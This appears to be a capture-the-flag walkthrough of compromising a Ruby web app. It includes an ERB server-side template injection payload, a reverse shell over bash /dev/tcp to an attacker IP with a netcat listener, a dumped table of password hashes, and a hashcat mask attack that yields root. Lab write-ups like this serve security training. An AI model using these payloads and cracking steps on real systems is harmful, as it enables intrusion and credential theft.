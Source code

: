 To find the version of OpenSSH I run `nmap` and find the version is 8.9p1.

```
nmap -sC -sV {victim ip}
```

To find the programming language the web-app was built with I run:

```
curl -I {victim ip}
```
I get the following response and find the language is Ruby:

```
HTTP/1.1 200 OK Server: nginx Date: Tue, 25 Jun 2024 17:23:04 GMT Content-Type: text/html;charset=utf-8 Connection: close X-Xss-Protection: 1; mode=block X-Content-Type-Options: nosniff X-Frame-Options: SAMEORIGIN Server: WEBrick/1.7.0 (Ruby/3.0.2/2021-07-07) Content-Length: 3842
```

When we visit the page I find this is a web-app that it runs a weighted grade calculator, on the directory `/weighted-grade`.   

Seeing there is "Category" section that allows for alphanumeric user input, there is the potential for a Server Side Template Injection vulnerability in Embedded Ruby.

If we use Burp to catch our input when we fill out the forms in `weighted-grade`, then send it to the `Responder` to edit the input. Under `category1`
I edited this input,(1) is the actual string, (2) is the string url-encoded ruby input.

```
(1)=test
<%= IO.popen("sleep 10").readlines() %>
(2)= test%0A<%25%3d+IO.popen("id").readlines()%25>
```

The output should be the output of the `id` command. This will confirm that the Server Side Template Vulnerability exists.

Now I update the injection to call a local `netcat` listener

```
Test1%0A<%25%3d+IO.popen("bash+-c+'bash+-
i+>%26+/dev/tcp/10.10.14.2/4444+0>%261'").readlines()+%25>
```

Then run the netcat listener, locally, and trigger burp to send the POST:

```
nc -lnvp 4444
```

This will give me the shell of the web-app on my local listener.

Our next goal is to get root on the web-server. Running `id` we find the user is `susan`. On `susan's` home directory I find a `Migration/` directory with a file `pupilpath_credentials.db` 

I open the file,

```
$ sqlite3 pupilpath_credentials.db
sqlite > select * from users;

1|Susan
Miller|abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
2|Tina Smith|dd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57
3|Harry
Tyler|d33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393
4|David
Lawrence|ff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87a
5|Stephen
Locke|154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8
```

We know from the letter `susan` in the directory `/var/mail` that the password format is "firstname_firstname backwards_randomly generated int from 1 to 1,000,000,000". 

To crack the password we put the hash found in the database in hash.txt and put the string "susan_nasus_" in the file wl. Then we run the following command:

```
hashcat -m 1400 -a 6 hash.txt wl ?d?d?d?d?d?d?d?d?d -O
```

The flags mean the following:

```
-m 1400: Specifies the hash type, in this case, SHA-256.

-a 6 : Specifies the attack mode, in this case, a combinator attack where each candidate in the keyspace is appended to each word in the wordlist.

hash : The file containing the hash to be cracked.  
wl : The wordlist file containing the prefix susan_nasus_ .

?d?d?d?d?d?d?d?d?d: The mask representing all combinations of 9 digits. -O : Optimized kernel (useful for speed but may have restrictions).
```

We get the password: `susan_nasus_413759210`

We run the command `sudo -i` and input the password which gives us root. Then we run `cat /root/root.txt`

